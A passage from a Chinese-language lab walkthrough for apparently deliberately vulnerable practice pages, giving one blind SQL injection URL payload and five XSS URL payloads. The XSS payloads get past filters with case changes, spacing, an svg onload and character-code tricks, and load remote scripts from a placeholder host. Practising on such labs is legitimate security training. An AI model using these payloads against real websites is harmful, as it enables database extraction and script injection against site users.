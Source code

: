 以前写过这样的脚本，现在就懒得写了。。

## Example 9

和前面一个比，就是少了一个\`， 其他都一样
```
http://192.168.56.102/sqli/example8.php?order=id, (select%20ascii(substr(user(), [var1],1))=[var2])%23
```

# XSS
## Example 1

很简单，没做过过滤的xss
```
http://192.168.56.102/xss/example1.php?name=hacker%3Cscript%20src=%22http://xxx.xxx.xxx/template/alert.js%22%3E%3C/script%3E
```
成功弹窗

## Example 2

变个大小写就好了
```
http://192.168.56.102/xss/example2.php?name=hacker%3Cscript%20src=%22http://xxx/template/alert.js%22%3E%3C/scriPT%3E
```

## Example 3

价格空格就好了
```
http://192.168.56.102/xss/example3.php?name=hacker%3CscripT%20src=%22http://xxx/template/alert.js%22%3E%3C/Script%20%3E
```

## Example 4

过滤了script，而且不是去掉而是出现了就直接报错，不过任然可以日。
payload: 
```
http://192.168.56.102/xss/example4.php?name=hacker%3Csvg/onload=%22var%20i=String.fromCharCode(115,%2099,%20114,%20105,%20112,%20116);s%20=%20createElement(i);body.appendChild(s);s.src=%27http://xxx/template/alert.js%27;%22
```

## Example 5

过滤的是alert，可惜我都不是直接用alert, 改个文件名就好了
```
http://192.168.56.102/xss/example5.php?name=hacker%3Cscript%20src=%22http://xxx/myjs/test.js%22%3E%3C/script%3E
```
